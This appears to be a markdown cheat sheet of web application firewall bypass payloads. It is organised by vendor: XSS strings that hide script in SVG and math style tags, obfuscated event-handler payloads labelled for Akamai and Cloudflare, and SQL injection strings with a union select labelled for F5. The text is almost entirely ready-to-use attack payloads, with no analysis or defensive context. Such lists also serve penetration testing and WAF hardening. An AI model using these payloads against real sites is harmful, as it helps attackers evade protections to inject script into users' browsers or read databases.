 # General

Hide [[XSS]] payload in style tag of an SVG or math element for WAF or sanitizer bypass:

```
<svg><style> <script>alert(1)</script> </style></svg> <math><style> <img src onerror=alert(2)> </style></math>
```
# Akamai

[[XSS]] bypass 1:

```
1'"><A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)>
```
# Cloudflare

[[XSS]] bypass 1:

```
"><body/onload="{x:onerror=alert};x
```

[[XSS]] bypass 2:

```
<inpuT autofocus oNFocus="setTimeout(function() { /*\`*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\`*/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;
```

# F5

[[SQLi]] bypass 1:

```
+{`nothing`/*str*/(')}div%0B1+'
+{`nothing`/*str*/(')}div%0B0+'
```

[[SQLi]] bypass 2:

```
{`noth`/*ing*/821}+union+%23%0a+distinctrow%0b/**/select+1,2,3--{`nothing`/**/TRUE}
```